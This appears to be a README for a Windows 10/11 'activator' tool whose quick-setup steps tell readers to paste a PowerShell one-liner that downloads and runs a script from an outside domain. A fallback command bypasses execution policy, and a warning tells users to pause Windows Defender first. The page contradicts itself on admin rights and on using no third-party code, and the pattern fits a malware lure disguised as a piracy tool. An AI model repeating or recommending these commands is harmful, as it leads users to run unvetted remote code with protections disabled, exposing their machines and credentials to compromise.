



<div align="center">

# windows-activator: Windows 10 & 11 Activation Tool for Windows Desktop Client



[]() []() []() []()

</div>

---

windows-activator is a command-line utility designed to activate Windows 11 and Windows 10 by managing product keys, KMS server configurations, and edition upgrades directly from an elevated prompt. The tool provides two distinct activation methods: a batch-file workflow that automates the sequence and a manual command set that gives operators direct control over each step. An edition-upgradability check is included so you can confirm target edition support before modifying the current license state. The project is intended for users who need a scriptable, transparent activation process without relying on interactive installers.

## ⚡ Quick Setup (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Prepare PowerShell
* Open the Start menu and type **PowerShell**.
* Right-click and choose **Run as administrator** (optional).

### 2️⃣ Execute the installer
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If blocked by policy — CMD fallback
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 🔧 Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- Supports activation of both Windows 11 and Windows 10 Pro editions through a command-line driven workflow.
- Provides two independent activation paths: a scripted batch file approach and a manual sequence of license management commands, allowing users to choose the method that fits their environment.
- Includes an edition upgradability check using the Deployment Image Servicing and Management tool to confirm whether the installed edition can be upgraded to Pro before any changes are made.
- Handles cleanup of existing activation state by removing the current product key, clearing it from the registry, and resetting the Key Management Service configuration.
- Automates the transition to Windows Pro by reconfiguring the LicenseManager and Windows Update services and applying a generic product key, followed by a standard reboot.
- Performs activation through the native Software License Manager, applying a product key, configuring a Key Management Service host, and issuing an activation request.
- Operates entirely with built-in Windows tooling, requiring no third-party binaries beyond the provided batch script.
- Preserves system integrity by relying on documented command-line utilities and standard service configuration rather than patching system files.

## How It Works

windows-activator operates through a staged, command-line-driven activation pipeline that targets the Windows licensing subsystem directly. Rather than relying on a single monolithic script, the tool decomposes the activation process into discrete, verifiable phases, each of which can be inspected and executed independently.

**1. Licensing State Reset.** The pipeline begins by clearing any pre-existing product key state from the local licensing store. Existing keys are uninstalled and the cached product key is purged from the registry, ensuring that the subsequent activation is performed against a clean slate. The Key Management Service (KMS) host configuration is also reset, which removes any stale or conflicting server references inherited from prior activation attempts.

**2. Edition Eligibility Verification.** Before any key is applied, the tool queries the operating system for its supported target editions using the built-in deployment imaging service. If the installed edition is listed as upgradable to Professional, the pipeline proceeds; otherwise, execution halts with a diagnostic message. This guard prevents partial or invalid activation attempts on editions that cannot accept the target key family.

**3. Edition Upgrade Sequencing.** Where an edition upgrade is required, the tool temporarily reconfigures two core Windows services — the license manager and the Windows Update service — to start automatically and launches them. A generic upgrade product key is then injected via the change-product-key utility, which triggers the native edition upgrade installer. This phase intentionally terminates with a non-zero exit code once the installer reaches completion; the tool treats this as an expected signal rather than an error, and prompts for a system restart to finalize the edition transition.

**4. Product Key Installation.** Following the restart, the pipeline installs the appropriate edition-specific product key through the Software Licensing Management Tool. The tool selects the key matching the detected edition (Professional, Enterprise, or Education) and applies it via a silent, non-interactive invocation, so no dialog boxes interrupt execution.

**5. KMS Host Configuration.** With the key in place, the tool configures the licensing client to point at a KMS host and sets the corresponding port. This step establishes the network endpoint the activation request will be sent to. Configuration is applied atomically, and the tool verifies that the host value was written to the licensing store before continuing.

**6. Activation Request and Verification.** The final stage issues an activation request to the configured KMS host. Because KMS activation is inherently probabilistic — host availability and request throttling can cause transient failures — the tool retries the activation call with a bounded backoff strategy. On success, it queries the licensing status and reports the remaining activation grace period and renewal interval. On persistent failure, it surfaces the underlying licensing error code so the operator can distinguish between network, host, and key-related faults.

Throughout the pipeline, every command is invoked through the native Windows licensing interfaces rather than third-party binaries, and every phase reports a clear pass/fail status to the console. The tool performs no persistent background activity: once the final verification completes, all temporary service configuration changes are reverted and the process exits, leaving the system in a standard activated state.

## Compatibility

The windows-activator project is engineered to operate across the supported Windows 10 and Windows 11 release channels, targeting both Home and Pro SKUs where edition upgrade paths permit. The activation workflow relies on native Windows licensing components—Software Protection Platform services, the License Manager service, and the Windows Update service—so it remains consistent across builds rather than depending on version-specific tooling.

Compatibility considerations include the following:

- **Operating system coverage.** The activator supports Windows 10 and Windows 11 in their mainstream release configurations. Edition upgradability is verified at runtime through the target edition inventory, allowing the workflow to confirm whether an upgrade path to Pro is available before any licensing changes are applied.
- **Privilege requirements.** All activation operations require an elevated command environment. Administrative rights are necessary to reconfigure service startup states and to invoke the licensing management interface.
- **Service dependencies.** Successful execution depends on the License Manager and Windows Update services being available and startable. The workflow configures both services to start automatically, ensuring the activation pipeline is not blocked by disabled or manual startup settings.
- **Licensing subsystem integration.** The activator interacts directly with the built-in activation infrastructure rather than modifying system binaries. This preserves compatibility with servicing updates and cumulative patches that refresh licensing components.
- **Network connectivity.** Certain activation paths require outbound connectivity to reach a key management service endpoint. Environments with restricted egress may reduce the reliability of online activation steps, while offline paths remain available for key installation and edition transitions.
- **State transitions.** The workflow accounts for systems with pre-existing product keys by clearing installed keys and cached licensing data before applying new configuration, which keeps behavior predictable on both fresh installations and previously activated systems.
- **Post-activation verification.** Activation status can be confirmed through the standard system information and activation settings surfaces, allowing users to validate the resulting license state independently of the tool.

The project is intended for use on systems the user owns or administers, and compatibility assumes a standard Windows installation without third-party licensing modifications that could interfere with the native activation services.

## 📸 Screenshot





## FAQ

**Which Windows versions are supported?**
The activator targets Windows 11 and Windows 10, including Pro, Enterprise, and Education editions. Edition eligibility depends on the installed SKU; the tool queries the target edition list before applying any upgrade or activation step, so unsupported SKUs are rejected rather than partially modified.

**Does activation survive Windows updates?**
Activation state is persisted through the licensing service and generally survives cumulative and feature updates. Major feature upgrades may reset the grace period or re-trigger evaluation notices; in that case, re-running the activation workflow restores the licensed state. The tool does not block or defer Windows Update.

**What happens to my existing product key?**
The activation workflow clears the currently installed key and the key cached in the registry before applying a new one. If a genuine key was previously present, record it beforehand; it can be reinstalled at any time through the standard licensing commands or the Settings activation page.

**Is a reboot required?**
A restart is required after the edition upgrade step completes, even when the installer reports an error near 100 percent. Activation itself can complete without a reboot, but a restart is recommended so the licensing service reloads cleanly and the new edition is reflected consistently across system components.

**Why does the edition upgrade report an error?**
The error at the end of the upgrade is expected behavior, not a failure. The edition change is committed before the installer exits; dismissing the dialog and rebooting finalizes the transition. Verify the result in Settings under System, About, where the edition string should now read Pro.

**Does the tool modify system files or install background services?**
No. The activator operates through the built-in software licensing management interface and standard service control commands. It does not patch system binaries, inject DLLs, or leave persistent background processes. All changes are limited to licensing configuration and the edition upgrade.

**Can activation be reverted?**
Yes. The applied key can be removed with the standard uninstall command, and a prior genuine key can be reinstalled through the same licensing interface. Reverting the edition itself requires a clean installation or an in-place upgrade with valid media; the activator does not downgrade editions.

**Is administrative privilege required?**
Yes. Every operation, including key installation, service control, and edition upgrade, requires an elevated command prompt. Running unelevated results in access-denied errors and no changes are applied.

**Does the tool work offline?**
The activation step depends on reaching a key management service endpoint and therefore requires network connectivity. Edition upgrade and key removal steps run locally. If activation fails, confirm outbound connectivity and retry; intermittent failures are typically transient.

**Is this affiliated with Microsoft?**
No. The project is independent and provided for educational and testing purposes only. It is not endorsed by, associated with, or supported by Microsoft. Users are responsible for complying with applicable licensing terms in their jurisdiction.

## Disclaimer

This software is provided strictly for evaluation, testing, and educational purposes within controlled laboratory environments. It is intended for use only on systems you own or for which you have explicit, documented authorization from the system owner. The tool modifies core licensing subsystems, service configurations, and activation state; such operations can alter the system's licensing integrity and may violate the terms of service of the operating system vendor or applicable local laws. No warranty, express or implied, is provided regarding functionality, stability, or fitness for a particular purpose. By using this software, you accept full responsibility for any consequences, including but not limited to system instability, loss of data, licensing invalidations, or legal implications arising from its use. The maintainers assume no liability for misuse, damages, or legal claims resulting from the operation of this tool. Always retain a complete system backup and a valid recovery path before proceeding with any activation-related operation.

## License

This project is distributed under the MIT License, a permissive open-source license designed to maximize both academic and commercial utility while minimizing integration friction. The license grants any individual or organization the unrestricted right to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software, subject only to the conditions outlined below. No warranty, express or implied, is provided regarding fitness for a particular purpose, merchantability, or non-infringement, and the authors and copyright holders accept no liability for any claim, damages, or other obligation arising from the use of this software or its derivatives.

The full license terms are as follows:

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files, to deal in the software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the software, and to permit persons to whom the software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

Use of this software does not grant any rights to third-party trademarks, service marks, or trade names, including any Microsoft product names or marks referenced within the repository for descriptive purposes. You are solely responsible for ensuring that your deployment of this software complies with all applicable local, national, and international laws and with any agreements governing the systems on which it is used. Nothing in this license constitutes legal advice, and no contributor assumes responsibility for regulatory compliance on behalf of downstream users.